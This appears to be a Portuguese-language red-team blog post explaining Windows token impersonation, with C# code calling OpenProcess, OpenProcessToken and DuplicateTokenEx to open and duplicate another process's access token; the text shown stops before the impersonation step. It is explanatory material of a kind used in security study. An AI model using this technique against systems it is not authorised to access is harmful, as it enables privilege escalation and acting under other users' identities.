 ```yaml
---
title: "Token Impersonation: uma análise interna."
date: 2024-02-11 00:00:00 +0800
categories: [Windows, Token, Impersonation]
tags: [Red Team]
---
```


![Desktop View](https://i.imgur.com/O4rN4Sz.png)

O Windows não economiza quando o assunto é vetores de ataque. As inúmeras maneiras de se executar um comando, de elevar privilégios, de persistências, se tornaram uma marca registrada do sistema.

Hoje, vamos nos aprofundar numa técnica de ataque que, particularmente, acho bem interessante: **Token Impersonation**.

Basicamente, o ataque consiste nas seguintes etapas:

- Abrir um handle ao token do processo;
- Duplicar este handle (token);
- Impersonificar o token referenciado pelo handle.

## OpenProcess

Primeiramente, é necessária a abertura de um handle ao processo alvo que queremos manipular o token.

```csharp
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

static void Main(string[] args)
{
	IntPtr hProcess = OpenProcess(0x1000/*PROCESS_QUERY_LIMITED_INFORMATION*/, false, Convert.ToInt32(args[0]));

	Console.WriteLine(
		hProcess == IntPtr.Zero
		? $"OpenProcess ERROR: {Marshal.GetLastWin32Error()}"
		: $"OpenProcess SUCCESS: {hProcess}"
	);
}
```

>`PROCESS_QUERY_LIMITED_INFORMATION (0x1000)`: o nível de acesso que o handle terá. Esta é a permissão mínima necessária para manipular tokens de processos.
{: .prompt-info }

Note que foi aberto um handle ao processo. A variável que armazenará este handle é a `hProcess`, que utilizaremos posteriormente nas próximas APIs.

## OpenProcessToken

Agora o objetivo é abrir um handle para o token do processo. Para isso, a `OpenProcessToken` desempenha a função necessária para esta etapa.

```csharp
[DllImport("advapi32", SetLastError = true)]
static extern IntPtr OpenProcessToken(IntPtr ProcessHandle, uint DesiredAccess, out IntPtr TokenHandle);

static void Main(string[] args)
{
	IntPtr tokenPtr = OpenProcessToken(hProcess, 0x0002/*TOKEN_DUPLICATE*/, out IntPtr hToken);
	Console.WriteLine(
		tokenPtr == IntPtr.Zero
		? $"OpenProcessToken ERROR: {Marshal.GetLastWin32Error()}"
		: $"OpenProcessToken SUCCESS: {hToken}" // hToken = handle do token
	);

	if (hProcess == IntPtr.Zero) Environment.Exit(0);
	CloseHandle(hProcess);
	CloseHandle(tokenPtr);
}
```

Onde:

- `DesiredAccess`: especifica uma máscara de acesso que especifica os tipos solicitados de acesso ao token.
- `TokenHandle`: o handle do token de acesso do processo.


Ainda falando sobre a [máscara de acesso do token](https://learn.microsoft.com/pt-br/windows/win32/secauthz/access-rights-for-access-token-objects), ela trabalha de forma bastante similar com o `processAccess` do `OpenProcess`. Esta flag é necessária para especificarmos qual o nível de acesso que teremos sobre o token.

Neste caso, como este token (hToken) será duplicado posteriormente, a única permissão necessária, neste caso, é a de `TOKEN_DUPLICATE`, representada pelo valor `0x0002`.

## DuplicateTokenEx

Como vimos, já temos um handle em aberto ao token representada pela variável `hToken`. O próximo passo agora é duplicá-lo para que possamos impersonificá-lo posteriormente.

```csharp
enum SECURITY_IMPERSONATION_LEVEL
{
	SecurityAnonymous,
	SecurityIdentification,
	SecurityImpersonation,
	SecurityDelegation
}

enum TOKEN_TYPE
{
	TokenPrimary = 1,
	TokenImpersonation
}

[DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
static extern bool DuplicateTokenEx(
	IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes,
	SECURITY_IMPERSONATION_LEVEL impersonationLevel, TOKEN_TYPE tokenType, out IntPtr hNewToken
);

static void Main(string[] args)
{
	bool duplicate = DuplicateTokenEx(
		hToken,
		0x02000000 /*MAXIMUM_ALLOWED*/,
		IntPtr.Zero /*default security descriptor*/,
		SECURITY_IMPERSONATION_LEVEL.SecurityImpersonation,
		TOKEN_TYPE.TokenImpersonation,
		out IntPtr hNewToken
	);

	Console.WriteLine(
		duplicate == false
		? $"DuplicateTokenEx ERROR: {Marshal.GetLastWin32Error()}"
		: $"DuplicateTokenEx SUCCESS: {hNewToken}"
	);

	if (hNewToken == IntPtr.Zero) Environment.Exit(0);
	CloseHandle(hToken);
}
```

Como vimos, diversos valores são repassados. Vamos nos atentar aos principais:

- `dwDesiredAccess`: nível de acesso do token duplicado.
- `SECURITY_IMPERSONATION_LEVEL`: o nível de segurança de impersonificação, representando o grau em que um processo servidor pode agir em nome de um processo cliente.
- `TOKEN_TYPE`: o tipo do token, podendo ser um primário (um criado do zero, diretamente pelo kernel), ou um impersonificado.

Onde, na chamada da API:

- O valor `0x02000000` é repassado no `dwDesiredAccess`. Este valor simboliza o MAXIMUM_ALLOWED, que significa o máximo permitido.

- O valor `SecurityImpersonation` é repassado no `SECURITY_IMPERSONATION_LEVEL`. Este valor simboliza que o servidor pode impersonificar o contexto de segurança do cliente.

- O valor `TokenImpersonation` é repassado no `TOKEN_TYPE`. Este valor simboliza que o token será do tipo impersonificado.
